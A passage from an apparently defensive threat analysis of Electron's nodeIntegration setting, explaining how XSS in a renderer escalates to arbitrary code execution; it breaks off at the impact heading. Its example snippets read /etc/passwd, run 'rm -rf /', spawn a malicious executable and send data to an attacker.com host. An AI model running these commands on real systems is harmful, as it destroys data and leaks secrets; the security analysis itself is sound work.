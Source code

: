 ### 4. Deep Analysis of Attack Surface: Node.js Integration in Renderer Processes

Enabling Node.js integration in Electron renderer processes fundamentally blurs the lines between the secure web content sandbox and the privileged Node.js environment. This creates a significant attack surface, primarily because it allows malicious code injected into the renderer process (e.g., through an XSS vulnerability) to escape the sandbox and execute arbitrary code with the privileges of the user running the Electron application.

**4.1. The Core Problem: Bypassing the Renderer Sandbox**

Electron's security model relies heavily on the separation between the main process (which has full Node.js capabilities) and the renderer processes (which are intended to display web content within a sandbox). When `nodeIntegration` is set to `true` for a renderer, this separation is compromised.

**4.2. Attack Vectors and Exploitation Techniques**

The primary attack vector for this surface is **Cross-Site Scripting (XSS)**. If an attacker can inject malicious JavaScript code into the web content loaded within a renderer process that has Node.js integration enabled, they gain access to the full power of Node.js APIs.

**Example Exploitation Scenario:**

1. **XSS Vulnerability:** The application contains an XSS vulnerability, allowing an attacker to inject `<script>` tags into a vulnerable page.
2. **Node.js API Access:** Because `nodeIntegration` is enabled, the injected script can directly access Node.js modules.
3. **Arbitrary Code Execution:** The attacker can use Node.js APIs to perform malicious actions, such as:
    *   **File System Access:** Reading sensitive files, writing malicious executables, or deleting critical data using the `fs` module.
        ```javascript
        // Example of reading a file
        require('fs').readFileSync('/etc/passwd', 'utf-8');

        // Example of executing a command
        require('child_process').exec('rm -rf /');
        ```
    *   **Process Execution:** Spawning new processes to install malware or perform other malicious activities using the `child_process` module.
        ```javascript
        require('child_process').spawn('malicious_script.exe');
        ```
    *   **Network Communication:**  Establishing connections to external servers to exfiltrate data or receive further instructions using modules like `http` or `net`.
        ```javascript
        require('http').get('http://attacker.com/steal_data?data=' + sensitiveData);
        ```
    *   **Native Modules:**  Loading and utilizing native Node.js addons, potentially exploiting vulnerabilities within those addons or using them for advanced malicious activities.
    *   **`require()` Function:**  Dynamically loading and executing arbitrary JavaScript code from local files or remote sources.

**4.3. Impact Assessment**
